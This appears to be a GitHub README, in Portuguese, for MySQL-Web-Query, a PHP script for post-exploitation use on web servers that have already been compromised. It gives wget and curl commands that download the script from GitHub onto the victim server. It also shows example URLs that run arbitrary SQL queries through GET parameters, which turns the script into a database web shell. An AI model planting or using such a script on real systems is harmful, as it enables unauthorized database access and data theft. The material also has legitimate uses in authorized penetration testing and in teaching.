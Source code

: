 # MySQL-Web-Query

Existem casos (em um cenário pós-exploração) em que, após comprometer uma aplicação web e obter shell, não é possível interagir com o MySQL em virtude das limitações de interação da shell que foi obtida.

Neste caso o **MySQL-Web-Query** pode ser útil.

### :hammer_and_wrench: Requisitos

É necessário que o web server comprometido use a tecnologia PHP e o MySQL como DBMS.

### 📋 Como usar

Transfira o script para o web server em um diretório acessível via browser:
```
wget https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php
```
ou
```
curl https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php > query.php
```
<br>

Deve ser informado os parâmetros **db** (banco de dados) e **q** (query). Exemplos:
```
http://web_server/query.php?db=mysql&q=select user();
```
![image](https://user-images.githubusercontent.com/76706456/178148420-53e2f3bb-6071-486f-900a-6e0d6f7e0582.png)
```
http://web_server/query.php?db=mysql&q=show tables;
```
![image](https://user-images.githubusercontent.com/76706456/178148558-2921f6ad-45f9-446e-95c0-7b0ee3e9f0b0.png)
